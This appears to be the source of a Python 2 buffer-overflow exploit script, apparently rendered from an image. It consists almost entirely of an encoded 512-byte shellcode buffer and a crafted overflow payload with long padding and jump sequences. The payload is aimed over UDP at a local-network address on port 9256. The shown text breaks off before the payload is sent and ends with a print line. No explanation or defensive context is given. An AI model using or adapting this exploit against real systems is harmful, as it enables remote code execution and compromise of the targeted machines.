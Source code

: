 ```python
#Payload size: 512 bytes

buf =  ""
buf += "\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49"
buf += "\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += "\x49\x41\x49\x41\x49\x41\x6a\x58\x41\x51\x41\x44\x41"
buf += "\x5a\x41\x42\x41\x52\x41\x4c\x41\x59\x41\x49\x41\x51"
buf += "\x41\x49\x41\x51\x41\x49\x41\x68\x41\x41\x41\x5a\x31"
buf += "\x41\x49\x41\x49\x41\x4a\x31\x31\x41\x49\x41\x49\x41"
buf += "\x42\x41\x42\x41\x42\x51\x49\x31\x41\x49\x51\x49\x41"
buf += "\x49\x51\x49\x31\x31\x31\x41\x49\x41\x4a\x51\x59\x41"
buf += "\x5a\x42\x41\x42\x41\x42\x41\x42\x41\x42\x6b\x4d\x41"
buf += "\x47\x42\x39\x75\x34\x4a\x42\x69\x6c\x77\x78\x62\x62"
buf += "\x69\x70\x59\x70\x4b\x50\x73\x30\x43\x59\x5a\x45\x50"
buf += "\x31\x67\x50\x4f\x74\x34\x4b\x50\x50\x4e\x50\x34\x4b"
buf += "\x30\x52\x7a\x6c\x74\x4b\x70\x52\x4e\x34\x64\x4b\x63"
buf += "\x42\x4f\x38\x4a\x6f\x38\x37\x6d\x7a\x4d\x56\x4d\x61"
buf += "\x49\x6f\x74\x6c\x4f\x4c\x6f\x71\x33\x4c\x69\x72\x4e"
buf += "\x4c\x4f\x30\x66\x61\x58\x4f\x5a\x6d\x59\x71\x67\x57"
buf += "\x68\x62\x48\x72\x52\x32\x50\x57\x54\x4b\x72\x32\x4e"
buf += "\x30\x64\x4b\x6e\x6a\x4d\x6c\x72\x6b\x70\x4c\x4a\x71"
buf += "\x43\x48\x39\x53\x71\x38\x6a\x61\x36\x71\x4f\x61\x62"
buf += "\x6b\x42\x39\x4f\x30\x4a\x61\x38\x53\x62\x6b\x30\x49"
buf += "\x6b\x68\x58\x63\x4e\x5a\x6e\x69\x44\x4b\x6f\x44\x72"
buf += "\x6b\x4b\x51\x36\x76\x70\x31\x69\x6f\x46\x4c\x57\x51"
buf += "\x48\x4f\x4c\x4d\x6a\x61\x55\x77\x4f\x48\x57\x70\x54"
buf += "\x35\x49\x66\x49\x73\x51\x6d\x7a\x58\x6d\x6b\x53\x4d"
buf += "\x4e\x44\x34\x35\x38\x64\x62\x38\x62\x6b\x52\x38\x6b"
buf += "\x74\x69\x71\x4a\x33\x33\x36\x54\x4b\x7a\x6c\x6e\x6b"
buf += "\x72\x6b\x51\x48\x6d\x4c\x6b\x51\x67\x63\x52\x6b\x49"
buf += "\x74\x72\x6b\x4d\x31\x7a\x30\x44\x49\x51\x34\x6e\x44"
buf += "\x4b\x74\x61\x4b\x51\x4b\x4f\x71\x51\x49\x71\x4a\x52"
buf += "\x31\x49\x6f\x69\x50\x31\x4f\x51\x4f\x6e\x7a\x34\x4b"
buf += "\x6a\x72\x38\x6b\x44\x4d\x71\x4d\x50\x6a\x59\x71\x64"
buf += "\x4d\x35\x35\x65\x62\x4b\x50\x49\x70\x4b\x50\x52\x30"
buf += "\x32\x48\x6c\x71\x64\x4b\x72\x4f\x51\x77\x59\x6f\x79"
buf += "\x45\x45\x6b\x48\x70\x75\x65\x35\x52\x30\x56\x72\x48"
buf += "\x33\x76\x35\x45\x37\x4d\x63\x6d\x49\x6f\x37\x65\x6d"
buf += "\x6c\x6a\x66\x31\x6c\x79\x7a\x51\x70\x4b\x4b\x67\x70"
buf += "\x53\x45\x6d\x35\x55\x6b\x31\x37\x4e\x33\x32\x52\x30"
buf += "\x6f\x42\x4a\x6d\x30\x50\x53\x79\x6f\x37\x65\x70\x63"
buf += "\x53\x31\x72\x4c\x30\x63\x4c\x6e\x70\x65\x32\x58\x50"
buf += "\x65\x6d\x30\x41\x41"


# Create a UDP socket
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
server_address = ('192.168.91.130', 9256)

fs = "\x55\x2A\x55\x6E\x58\x6E\x05\x14\x11\x6E\x2D\x13\x11\x6E\x50\x6E\x58\x43\x59\x39"
p  = "A0000000002#Main" + "\x00" + "Z"*114688 + "\x00" + "A"*10 + "\x00"
p += "A0000000002#Main" + "\x00" + "A"*57288 + "AAAAASI"*50 + "A"*(3750-46)
p += "\x62" + "A"*45
p += "\x61\x40" 
p += "\x2A\x46"
p += "\x43\x55\x6E\x58\x6E\x2A\x2A\x05\x14\x11\x43\x2d\x13\x11\x43\x50\x43\x5D" + "C"*9 + "\x60\x43"
p += "\x61\x43" + "\x2A\x46"
p += "\x2A" + fs + "C" * (157-len(fs)- 31-3)
p += buf + "A" * (1152 - len(buf))
p += "\x00" + "A"*10 + "\x00"

print "---->{P00F}!"
```